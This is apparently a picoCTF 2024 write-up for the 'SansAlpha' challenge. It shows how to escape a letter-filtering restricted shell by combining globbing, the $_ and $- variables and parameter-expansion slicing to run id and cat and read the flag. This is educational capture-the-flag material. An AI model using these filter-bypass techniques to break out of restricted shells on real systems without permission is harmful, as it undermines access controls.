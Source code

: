 # SansAlpha

- [Challenge information](#challenge-information)
- [Solution](#solution)
- [References](#references)

## Challenge information
```
Level: Medium
Tags: General Skills, picoCTF 2024, bash, ssh, browser_webshell_solvable, shell_escape
Author: LOIC SHEMA / SYREAL

Description:
The Multiverse is within your grasp! Unfortunately, the server that contains the secrets of 
the multiverse is in a universe where keyboards only have numbers and (most) symbols.

ssh -p 61383 ctf-player@mimas.picoctf.net
Use password: 83dcefb7

Hints:
1. Where can you get some letters?
```
Challenge link: [https://play.picoctf.org/practice/challenge/436](https://play.picoctf.org/practice/challenge/436)

## Solution

### Connect to the site

We begin by connecting to the site
```bash
┌──(kali㉿kali)-[/mnt/…/picoCTF/picoCTF_2024/General_Skills/SansAlpha]
└─$ ssh -p 61383 ctf-player@mimas.picoctf.net
The authenticity of host '[mimas.picoctf.net]:61383 ([52.15.88.75]:61383)' can't be established.
ED25519 key fingerprint is SHA256:n/hDgUtuTTF85Id7k2fxmHvb6rrLrACHNM6xLZ46AqQ.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '[mimas.picoctf.net]:61383' (ED25519) to the list of known hosts.
ctf-player@mimas.picoctf.net's password: 
Welcome to Ubuntu 20.04.3 LTS (GNU/Linux 6.5.0-1016-aws x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.

The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

SansAlpha$ ls -la
SansAlpha: Unknown character detected
SansAlpha$ id
SansAlpha: Unknown character detected
SansAlpha$ 
```
Hhm, we have a weird non-standard shell.

### Trying to understand the shell

Now we try to understand the shell and do some basic enumeration.  
Maybe we can `quote` the commands?
```bash
SansAlpha$ "ls"
SansAlpha: Unknown character detected
SansAlpha$ 'ls'
SansAlpha: Unknown character detected
SansAlpha$ 
```
Nope.

Can we use [command substitution](https://www.gnu.org/software/bash/manual/html_node/Command-Substitution.html)?
```
SansAlpha$ $(ls)
SansAlpha: Unknown character detected
SansAlpha$ `ls`
SansAlpha: Unknown character detected
SansAlpha$  
```
Not that either.

We can run `exit` though
```bash
SansAlpha$ exit
Connection to mimas.picoctf.net closed.

┌──(kali㉿kali)-[/mnt/…/picoCTF/picoCTF_2024/General_Skills/SansAlpha]
└─$ 
```
but that isn't very helpful.

Entering an empty command reveal the name of the running script (`/usr/local/sansalpha.py`) when erroring out
```bash
SansAlpha$ 
Traceback (most recent call last):
  File "/usr/local/sansalpha.py", line 12, in <module>
    if user_in[-1] != "\n":
IndexError: string index out of range
Connection to mimas.picoctf.net closed.
```

### Listing files

If we type `*` we will try to execute the first file/directory in the current directory with all the other files and directories as arguments
```bash
SansAlpha$ *
bash: blargh: command not found
```
Then we can use `$_` which is a [special variable/parameter in bash](https://www.gnu.org/software/bash/manual/html_node/Special-Parameters.html) that holds the last argument of the previous command
```bash
SansAlpha$ $_
bash: on-calastran.txt: command not found
```
So the last file in the current directory is `on-calastran.txt`.

If we run `*/*` we can see that `blargh` is a directory containing the `flag.txt` file
```bash
SansAlpha$ */*
bash: blargh/flag.txt: Permission denied
```

There is also an `on-alpha-9.txt` file in the `blargh` directory
```bash
SansAlpha$ */*; $_
bash: blargh/flag.txt: Permission denied
bash: blargh/on-alpha-9.txt: Permission denied
```

Another variable we can use is `$-` that holds the current set of options in your current shell
```bash
SansAlpha$ $-
bash: himBHs: command not found
```

### Extracting characters

Following the challenge hint we can extract characters from variables with [parameter expansion](https://www.gnu.org/software/bash/manual/html_node/Shell-Parameter-Expansion.html) on the form `${parameter:offset:length}`. Like this
```bash
┌──(kali㉿kali)-[/mnt/…/picoCTF/picoCTF_2024/General_Skills/SansAlpha]
└─$ CAJAC=abcdefghijklmnopqrstuvwxyz

┌──(kali㉿kali)-[/mnt/…/picoCTF/picoCTF_2024/General_Skills/SansAlpha]
└─$ echo ${CAJAC:0:3}
abc

┌──(kali㉿kali)-[/mnt/…/picoCTF/picoCTF_2024/General_Skills/SansAlpha]
└─$ echo ${CAJAC:0:5}
abcde

┌──(kali㉿kali)-[/mnt/…/picoCTF/picoCTF_2024/General_Skills/SansAlpha]
└─$ echo ${CAJAC:3:10}
defghijklm
```
It works more or less like slicing of strings in Python.

If we combine a lot of tricks, i.e. quoting, command substitution, parameter expansion and redirection of stderr to stdout, we can extract whatever characters we have from our shell variables.

For example, we can execute `id` from the `$-` variable
```bash
SansAlpha$ "$($- 2>&1)"; ${_:7:1}${_:20:1}
bash: bash: himBHs: command not found: command not found
uid=1000(ctf-player) gid=1000(ctf-player) groups=1000(ctf-player)
```

Or execute `cat *` by extracting characters from the `on-calastran.txt` file
```bash
SansAlpha$ *; ${_:3:2}${_:8:1} *
bash: blargh: command not found
cat: blargh: Is a directory
The Calastran multiverse is a complex and interconnected web of realities, each
with its own distinct characteristics and rules. At its core is the Nexus, a
cosmic hub that serves as the anchor point for countless universes and
dimensions. These realities are organized into Layers, with each Layer
representing a unique level of existence, ranging from the fundamental building
blocks of reality to the most intricate and fantastical realms. Travel between
Layers is facilitated by Quantum Bridges, mysterious conduits that allow
individuals to navigate the multiverse. Notably, the Calastran multiverse
exhibits a dynamic nature, with the Fabric of Reality continuously shifting and
evolving. Within this vast tapestry, there exist Nexus Nodes, focal points of
immense energy that hold sway over the destinies of entire universes. The
enigmatic Watchers, ancient beings attuned to the ebb and flow of the
multiverse, observe and influence key events. While the structure of Calastran
embraces diversity, it also poses challenges, as the delicate balance between
the Layers requires vigilance to prevent catastrophic breaches and maintain the
cosmic harmony.
```

### Get the flag

Finally, to get the flag we can issue `cat */????.???`
```bash
SansAlpha$ *; ${_:3:2}${_:8:1} */????.???
bash: blargh: command not found
return 0 picoCTF{<REDECTED>}
```
 
For additional information, please see the references below.

## References

- [Command substitution - Bash Manual](https://www.gnu.org/software/bash/manual/html_node/Command-Substitution.html)
- [Shell Parameter Expansion - Bash Manual](https://www.gnu.org/software/bash/manual/html_node/Shell-Parameter-Expansion.html)
- [Special parameters - Bash Manual](https://www.gnu.org/software/bash/manual/html_node/Special-Parameters.html)
- [Difference between $_ and $- variables in Linux](https://medium.com/@linuxschooltech/difference-between-and-variables-in-linux-cd9153b74751)
- [ssh - Linux manual page](https://man7.org/linux/man-pages/man1/ssh.1.html)
- [Wikipedia - Secure Shell](https://en.wikipedia.org/wiki/Secure_Shell)
